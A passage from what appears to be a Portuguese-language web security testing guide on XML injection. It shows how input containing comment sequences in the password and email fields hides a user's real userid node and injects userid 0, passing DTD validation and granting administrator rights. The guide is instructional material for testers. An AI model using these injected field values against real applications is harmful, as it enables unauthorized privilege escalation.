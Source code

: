 O arquivo XML resultante está bem formado. Além disso, é provável que, para o usuário tony, o valor associado à tag userid seja o que aparece por último, ou seja, 0 (o ID do administrador). Em outras palavras, injetamos um usuário com privilégios administrativos.

O único problema é que a tag userid aparece duas vezes no último nó de usuário. Frequentemente, os documentos XML estão associados a um esquema ou a um DTD e serão rejeitados se não estiverem em conformidade com ele.

Vamos supor que o documento XML seja especificado pelo seguinte DTD:

```xml
<!DOCTYPE usuários [
    <!ELEMENT usuários (usuário+) >
    <!ELEMENT usuário (nome_de_usuário,senha,userid,email+) >
    <!ELEMENT nome_de_usuário (#PCDATA) >
    <!ELEMENT senha (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT email (#PCDATA) >
]>
```

Note que o nó userid é definido com cardinalidade 1. Neste caso, o ataque que mostramos antes (e outros ataques simples) não funcionarão se o documento XML for validado contra seu DTD antes de qualquer processamento ocorrer.

No entanto, este problema pode ser resolvido se o testador controlar o valor de alguns nós que precedem o nó ofensivo (userid, neste exemplo). Na verdade, o testador pode comentar tal nó, injetando uma sequência de início/fim de comentário:

```txt
Nome de usuário: tony
Senha: Un6R34kb!e</senha><!--
E-mail: --><userid>0</userid><email>s4tan@hell.com
```

Neste caso, o banco de dados XML final é:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<usuários>
    <usuário>
        <nome_de_usuário>gandalf</nome_de_usuário>
        <senha>!c3</senha>
        <userid>0</userid>
        <email>gandalf@middleearth.com</email>
    </usuário>
    <usuário>
        <nome_de_usuário>Stefan0</nome_de_usuário>
        <senha>w1s3c</senha>
        <userid>500</userid>
        <email>Stefan0@whysec.hmm</email>
    </usuário>
    <usuário>
        <nome_de_usuário>tony</nome_de_usuário>
        <senha>Un6R34kb!e</senha><!--</senha>
        <userid>500</userid>
        <email>--><userid>0</userid><email>s4tan@hell.com</email>
    </usuário>
</usuários>
```

